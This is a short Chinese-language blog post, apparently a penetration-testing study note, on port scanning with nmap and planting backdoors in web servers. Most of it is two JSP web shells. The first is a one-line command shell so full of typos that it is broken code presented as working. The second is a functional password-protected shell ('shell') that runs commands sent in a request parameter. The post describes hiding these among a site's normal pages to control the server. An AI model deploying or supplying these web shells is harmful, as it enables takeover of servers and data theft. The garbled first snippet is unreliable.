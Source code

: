 # 收集目标信息-端口扫描【nmap】


有ip地址之后端口扫描获取信息

3389端口：远程连接端口

深度利用
getshell后门木马
asp或php后们文件与网站服务器web目录下正常的网页文件混在一起，达到控制网站服务器的目的

**jsp的一句话木马【指令】**
```
&lt;%@page import =&#34;java.io.*&#34;%&gt;
&lt;%String cmd = requests.getParameter(*cmd*);String output = &#34;&#34;;if(cmd!=null){String s = null;try{Process p = RUntime.getRuntime().exec(cmd);BUfferedReader sl = new BufferedReadwe(new InputStream(p.getInputStream()));while((s = readLine())!=null){output &#43;= s&#43;&#34;\r\n&#34;;}}catch()IOException e}{e.printStackTrace();}}out.println(output);%&gt;
```
上传成功后，用```?cmd=```可以输入指令
**jsp的一句话木马【连接】**
【密码：shell】
```
&lt;%@ page language=&#34;java&#34; contentType=&#34;text/html; charset=GBK&#34;
    pageEncoding=&#34;UTF-8&#34;%&gt;
&lt;!DOCTYPE html PUBLIC &#34;-//W3C//DTD HTML 4.01 Transitional//EN&#34; &#34;http://www.w3.org/TR/html4/loose.dtd&#34;&gt;
&lt;html&gt;

    &lt;head&gt;
        &lt;meta http-equiv=&#34;Content-Type&#34; content=&#34;text/html; charset=UTF-8&#34;&gt;
        &lt;title&gt;一句话木马&lt;/title&gt;
    &lt;/head&gt;

    &lt;body&gt;
        &lt;%
        if (&#34;shell&#34;.equals(request.getParameter(&#34;pwd&#34;))) {
            java.io.InputStream input = Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;)).getInputStream();
            int len = -1;
            byte[] bytes = new byte[4092];
            out.print(&#34;&lt;pre&gt;&#34;);
            while ((len = input.read(bytes)) != -1) {
                out.println(new String(bytes, &#34;GBK&#34;));
            }
            out.print(&#34;&lt;/pre&gt;&#34;);
        }
    %&gt;
    &lt;/body&gt;

&lt;/html&gt;

```

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-%E6%94%B6%E9%9B%86%E7%9B%AE%E6%A0%87%E4%BF%A1%E6%81%AF-%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8Fnmap/  

